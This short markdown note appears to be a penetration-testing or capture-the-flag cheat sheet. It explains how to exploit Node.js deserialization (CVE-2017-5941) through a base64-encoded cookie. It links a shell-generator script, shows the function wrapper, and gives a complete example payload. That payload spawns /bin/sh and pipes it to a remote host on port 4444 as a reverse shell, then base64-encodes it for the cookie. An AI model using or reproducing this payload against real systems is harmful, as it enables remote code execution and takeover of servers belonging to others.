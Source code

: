 
##### Requirements
Probably a base64 encoded cookie, with custom input.
Node-JS website

###### Exploitatoin
Use CVE-2017-5941:
Download [nodejsshell.py](https://raw.githubusercontent.com/ajinabraham/Node.Js-Security-Course/master/nodejsshell.py)
Usage:
```
./nodejsshell.py IP PORT
```

Wrap the output:
```
_$$ND_FUNC$$_function(){OUTPUT}()
```


Example:
```
echo -n '{"email": "_$$ND_FUNC$$_function() { var net = require(\"net\"), cp = require(\"child_process\"), sh = cp.spawn(\"/bin/sh\", []);var client = new net.Socket();client.connect(4444, \"10.8.1.167\", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});return /a/;}()"}' | base64 -w 0
```